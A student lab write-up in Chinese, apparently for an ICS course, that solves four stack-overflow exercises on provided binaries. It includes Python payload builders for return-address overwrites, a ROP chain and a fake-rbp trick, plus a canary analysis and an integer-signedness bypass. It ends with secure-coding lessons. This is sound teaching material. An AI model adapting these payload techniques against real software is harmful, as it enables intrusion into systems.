




# 栈溢出攻击实验

## 题目解决思路

### Problem 1:
- **分析**：
  - 漏洞函数位于 `0x401232`，使用 `strcpy` 将用户输入复制到仅 8 字节的栈缓冲区（`rbp-0x8`）
  - 无任何保护机制，可直接覆盖返回地址
  - 目标函数 `0x401216` 会打印 "Yes!I like ICS!" 并调用 `exit(0)`

- **解决方案**：
  ```python
  padding = b"A" * 8           # 填充缓冲区 (8 字节)
  fake_rbp = b"B" * 8          # 覆盖 saved rbp (8 字节)
  target = (0x401216).to_bytes(8, "little")  # 目标函数地址
  payload = padding + fake_rbp + target
  
  with open("ans1.txt", "wb") as f:
      f.write(payload)
  ```

- **结果**：
  ```
  Do you like ICS?
  Yes!I like ICS!
  ```


---

### Problem 2:
- **分析**：
  - 漏洞函数 `func` (0x401290) 使用 `memcpy` 复制 0x38 (56) 字节到仅 8 字节的缓冲区
  - 开启了 NX 保护，栈不可执行，需要使用 ROP 技术
  - 程序中提供了 `pop rdi; ret` gadget (0x4012c7)，可用于传递参数
  - 目标函数 `func2` (0x401216) 需要参数等于 0x3f8 才能打印成功信息
  - 直接跳转到 `0x40124c`（跳过参数检查）可输出目标字符串

- **解决方案**：
  ```python
  padding = b"A" * 8
  fake_rbp = b"B" * 8
  pop_rdi = (0x4012c7).to_bytes(8, "little")   # pop rdi; ret gadget
  arg = (0x3f8).to_bytes(8, "little")          # 参数 0x3f8
  func2_success = (0x40124c).to_bytes(8, "little")  # 直接跳到打印成功位置
  payload = padding + fake_rbp + pop_rdi + arg + func2_success
  
  with open("ans2.txt", "wb") as f:
      f.write(payload)
  ```

- **结果**：
  
  ```
  Do you like ICS?
  Welcome to the second level!
  Yes!I like ICS!
  ```
 

---

### Problem 3:
- **分析**：
  - 漏洞函数 `func` (0x401355) 使用 `memcpy` 复制 0x40 (64) 字节到仅 32 字节的缓冲区（`rbp-0x20`）
  - 无 NX 保护，栈可执行
  - 目标函数 `func1` (0x401216) 需要参数等于 0x72 (114) 才能打印 "Your lucky number is 114"
  - 利用栈溢出覆盖返回地址，伪造 `rbp` 使其指向栈上我们控制的字符串
  
- **解决方案**：
  ```python
  # 字符串放在 payload 开头
  msg = b"Your lucky number is 114\x00"
  msg = msg.ljust(32, b"\x00")  # 填充到 32 字节
  
  # fake_rbp 让 rbp-0x40 指向栈上的字符串
  # 缓冲区地址约 0x7fffffffdec0，fake_rbp = 0x7fffffffdf00
  fake_rbp = (0x7fffffffdf00).to_bytes(8, "little")
  
  # 跳转到 func1 中打印字符串的位置
  target = (0x401274).to_bytes(8, "little")
  
  payload = msg + fake_rbp + target
  
  with open("ans3.txt", "wb") as f:
      f.write(payload)
  ```

- **结果**（在 gdb 下运行）：
  ```
  Do you like ICS?
  Now, say your lucky number is 114!
  If you do that, I will give you great scores!
  Your lucky number is 114
  [Inferior 1 (process xxxx) exited normally]
  ```
  
---

### Problem 4:
- **分析**：
  - 本题开启了 **Canary 保护**，无法通过栈溢出攻击
  
  **Canary 保护机制**：
  - Canary是一种栈保护机制，在函数开头将一个随机值放在栈上
  - 函数返回前检查该值是否被篡改，如果被修改则调用 `__stack_chk_fail` 终止程序
  - 这样即使攻击者能溢出缓冲区，也会破坏 canary 导致程序崩溃
  
  **在汇编代码中的体现**：
  
  **1. `func` 函数中的 Canary 保护**：
  
  函数开头设置 Canary（地址 `0x136c`）：
  ```asm
  136c: mov rax, QWORD PTR fs:0x28    ; 从 fs:0x28 读取 canary 值
  1375: mov QWORD PTR [rbp-0x8], rax  ; 保存到栈上 rbp-0x8 位置
  ```
  
  函数结尾检查 Canary（地址 `0x140a`）：
  ```asm
  140a: mov rax, QWORD PTR [rbp-0x8]  ; 读取栈上保存的 canary
  140e: sub rax, QWORD PTR fs:0x28    ; 与原始值比较
  1417: je  141e                       ; 相等则正常返回
  1419: call __stack_chk_fail          ; 不等则程序终止
  ```
  
  **2. `caesar_decrypt` 函数中的 Canary 保护**：
  
  函数开头设置 Canary（地址 `0x121c`）：
  ```asm
  121c: mov rax, QWORD PTR fs:0x28    ; 从 fs:0x28 读取 canary 值
  1225: mov QWORD PTR [rbp-0x8], rax  ; 保存到栈上 rbp-0x8 位置
  ```
  
  **3. `main` 函数中的 Canary 保护**：
  
  函数开头设置 Canary（地址 `0x142f`）：
  ```asm
  142f: mov rax, QWORD PTR fs:0x28    ; 从 fs:0x28 读取 canary 值
  1438: mov QWORD PTR [rbp-0x8], rax  ; 保存到栈上 rbp-0x8 位置
  ```
  
  **解题思路**：
  - 题目提示"你真的需要写代码吗"——说明不需要攻击，只需输入正确的值
  - 分析 `func` 函数逻辑：检查 `money >= 0xfffffffe`
  - 输入 `-1`，作为无符号整数是 `4294967295` (0xFFFFFFFF)，满足条件

- **解决方案**：
  直接运行程序，前两次输入任意内容，第三次输入金额时输入 `-1`：
  ```
  ./problem4
  # 第一次输入: 任意 (名字)
  # 第二次输入: 任意 (do you like ics)
  # 第三次输入: -1 (金额)
  ```

- **结果**：
  ```
  hi please tell me what is your name?
  lll
  hi! do you like ics?
  yes
  if you give me enough yuanshi,I will let you pass!
  -1
  your money is 4294967295
  great!I will give you great scores
  ```
  

---

## 思考与总结

### 实验收获

通过本次实验，我对栈溢出攻击有了更深入的理解：

1. **栈帧结构的理解**：了解了函数调用时栈上的布局（局部变量、saved rbp、返回地址），这是进行栈溢出攻击的基础。

2. **不同保护机制的作用**：
   - **无保护**（Problem 1）：可以直接覆盖返回地址跳转到任意位置
   - **NX 保护**（Problem 2）：栈不可执行，需要使用 ROP 技术借用程序中已有的代码片段
   - **ASLR**（Problem 3）：地址随机化使得硬编码地址失效，需要在调试器中确定实际地址
   - **Canary 保护**（Problem 4）：有效防止栈溢出攻击，任何覆盖返回地址的尝试都会被检测到

3. **ROP 技术**：学会了如何利用程序中的 gadget（如 `pop rdi; ret`）构造攻击链，在 NX 保护下实现任意代码执行。

4. **整数溢出问题**：Problem 4 展示了有符号整数与无符号整数比较的漏洞，`-1` 作为无符号数是最大值。

#### 同时获得了安全启示

- 永远不要使用 `gets`、`strcpy` 等不检查边界的函数
- 应始终开启编译器的安全保护选项（Canary、NX、ASLR、PIE 等）
- 在进行整数比较时要注意有符号和无符号的区别
- 安全编程需要多层防护，单一保护机制可能被绕过


